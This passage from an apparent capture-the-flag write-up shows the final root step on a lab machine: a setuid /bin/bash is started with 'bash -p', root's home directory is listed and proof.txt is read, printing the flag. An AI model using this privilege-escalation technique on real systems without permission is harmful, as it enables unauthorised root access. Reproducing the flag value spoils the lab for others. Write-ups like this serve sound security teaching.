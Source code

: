 Now after few seconds lets check the permission for the bash binary

```
jane@assignment:/tmp$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
jane@assignment:/tmp$
```

Sweet now lets get root

```
jane@assignment:/tmp$ bash -p
bash-5.0# id
uid=1000(jane) gid=1000(jane) euid=0(root) egid=0(root) groups=0(root),1000(jane)
bash-5.0# cd /root
bash-5.0# ls -al
total 60
drwx------ 10 root root 4096 Jan 25 23:04 .
drwxr-xr-x 19 root root 4096 Jun 15  2022 ..
lrwxrwxrwx  1 root root    9 Aug  2 14:28 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Aug  2 14:25 .bundle
drwx------  3 root root 4096 Aug  2 14:25 .config
drwxrwxr-x  3 root root 4096 Aug  2 14:24 .gem
-rw-r--r--  1 root root   45 Aug  2 14:28 .gitconfig
drwx------  3 root root 4096 Aug  2 14:23 .gnupg
drwxr-xr-x  3 root root 4096 Jun 16  2022 .local
drwxr-xr-x  4 root root 4096 Aug  2 14:25 .npm
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Jun 15  2022 .ssh
-rw-rw-r--  1 root root   58 Jul 14  2022 clean-tmp.sh
-rw-------  1 root root   33 Jan 25 23:04 proof.txt
drwx------  3 root root 4096 Jun 15  2022 snap
bash-5.0# cat proof.txt
fca793563f0542af8f6309a07b19c97c
bash-5.0# 
```

And we're done 


<br> <br>
[Back To Home](../../index.md)
<br>





